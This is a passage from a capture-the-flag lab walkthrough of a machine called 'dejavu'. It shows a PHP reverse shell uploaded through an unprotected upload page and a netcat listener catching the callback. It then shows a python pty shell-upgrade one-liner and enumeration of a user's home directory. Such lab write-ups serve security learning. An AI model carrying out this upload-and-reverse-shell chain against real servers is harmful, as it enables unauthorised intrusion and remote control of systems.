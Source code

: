 `lynx http://192.168.56.112/S3cR3t/upload.php`:
```
Upload your file

[./reverse_shell.phtml___] [Upload] ←

The file reverse_shell.phtml has been uploaded. ← 
```

`nc -lnvp 4444`:
```
listening on [any] 4444 ... ←
```

`curl http://192.168.56.112/S3cR3t/files/reverse_shell.phtml`

```
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.112] 51772 ←
bash: cannot set terminal process group (758): Inappropriate ioctl for device
bash: no job control in this shell
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ 
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
www-data ←
```

`hostname`:
```
dejavu
```

`uname -a`:
```
Linux dejavu 5.4.0-110-generic #124-Ubuntu SMP Thu Apr 14 19:46:19 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

`ls -alps /home/`:
```
total 12
4 drwxr-xr-x  3 root   root   4096 May 12  2022 ./
4 drwxr-xr-x 19 root   root   4096 May 12  2022 ../
4 drwxr-xr-x  5 robert robert 4096 May 13  2022 robert/ ←
```

`cd /home/robert`

`ls -alps`:
```
total 48
4 drwxr-xr-x 5 robert robert 4096 May 13  2022 ./
4 drwxr-xr-x 3 root   root   4096 May 12  2022 ../
0 lrwxrwxrwx 1 robert robert    9 May 13  2022 .bash_history -> /dev/null
4 -rw-r--r-- 1 robert robert  220 Feb 25  2020 .bash_logout
4 -rw-r--r-- 1 robert robert 3771 Feb 25  2020 .bashrc
4 drwx------ 2 robert robert 4096 May 12  2022 .cache/
4 drwxrwxr-x 3 robert robert 4096 May 13  2022 .local/
4 -rw-r--r-- 1 robert robert  807 Feb 25  2020 .profile
4 -rw-rw-r-- 1 robert robert   66 May 13  2022 .selected_editor
4 drwx------ 2 robert robert 4096 May 12  2022 .ssh/
0 -rw-r--r-- 1 robert robert    0 May 12  2022 .sudo_as_admin_successful
4 -rw-rw-r-- 1 robert robert  215 May 13  2022 .wget-hsts
4 -r-x------ 1 robert robert   72 May 13  2022 auth.sh
4 -r-------- 1 robert robert   38 May 13  2022 user.txt ←
```